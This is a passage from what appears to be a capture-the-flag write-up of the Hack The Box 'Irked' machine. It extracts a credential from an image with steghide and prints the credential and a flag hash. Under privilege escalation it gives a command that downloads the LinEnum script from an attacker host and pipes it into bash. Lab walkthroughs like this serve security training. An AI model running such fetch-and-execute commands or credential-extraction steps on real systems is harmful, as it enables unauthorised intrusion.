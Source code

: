 > give hint stegnography

- download image

```sh
curl http://10.10.10.117/irked.jpg -o irked.jpg
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/32.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/33.jpg)

```
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/34.jpg)

Credential:
Kab6h+m+bbp2J:HG

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/35.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/36.jpg)

```sh
4a66a78b12dc0e661a59d3f5c0267a8e
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/37.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/38.jpg)

```sh
find . | grep -i user.txt
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/39.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/40.jpg)

### Privilege Escalation

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/41.jpg)

```sh
curl 10.10.16.225:8000/LinEnum/LinEnum.sh | bash
```

- Let's go to writable directory

```sh
cd /dev/shm/
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/42.jpg)
